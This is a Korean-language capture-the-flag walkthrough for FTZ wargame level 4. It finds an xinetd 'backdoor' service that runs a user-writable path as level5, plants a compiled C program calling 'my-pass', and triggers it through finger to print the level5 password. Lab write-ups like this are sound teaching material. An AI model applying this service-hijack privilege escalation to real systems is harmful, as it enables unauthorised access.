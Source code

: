 ## level4

#### 실행

``` //
[level4@ftz levl4]$cat hint // hint 파일의 내용을 화면에 출력한다.
```

#### 결과

```
누군가 /etc/xinetd.d/에 백도어를 심어놓았다.! 
```

--------

#### 실행

```
[leve14@ftz level4]$ls /etc/xinetd.d //xinet.d 아래의 파일이나 디렉토리 확인한다.
```

#### 결과

```/bin/ExceteMe
backdoor daytime echo-udp rexec rsync sgi_fam time
chargen daytime-udp finger rlogin servers talk time-udp
chargen-udp echo ntalk rsh services telnet 
```

---------

#### 실행

```
[level4@ftz level4]$cat /etc/xinetd.d/backdoor // backdoor 파일의 내용을 화면에 출력한다.
```

#### 결과

```
service finger
{
 disable = no
 flags = REUSE
 socket_type = stream
 wait = no
 user = level5
 server = /home/level4/tmp/backdoor
 log_on_failure += USERID
} // finger 서비스를 통해 level5 권한으로 /home/level4/tmp/backdoor를 실행한다.
```

-------------------

#### 실행

```
[level4@ftz level4]$ cd /home/level4/tmp/backdoor // 경로로 현재 위치를 변경한다.
```

#### 결과

```
-bash: cd: /home/level4/tmp/backdoor: No such file or directory // backdoor 파일이 존재하지 않는다.
```

--------

#### 실행

```
[level4@ftz level4]$ cd /home/level4/tmp
[level4@ftz tmp]$ cat > backdoor.c
#include<stdlib.h>

int main(void){
	system("my-pass");
	return 0;
}
[level4@ftz tmp]$ gcc backdoor.c -o backdoor
```

#### 결과

```
[level4@ftz tmp]$
```

----------------

#### 실행

```
[level4@ftz tmp]$ finger @localhost
```

#### 결과

```
Level5 Password is "what is your name?".
```

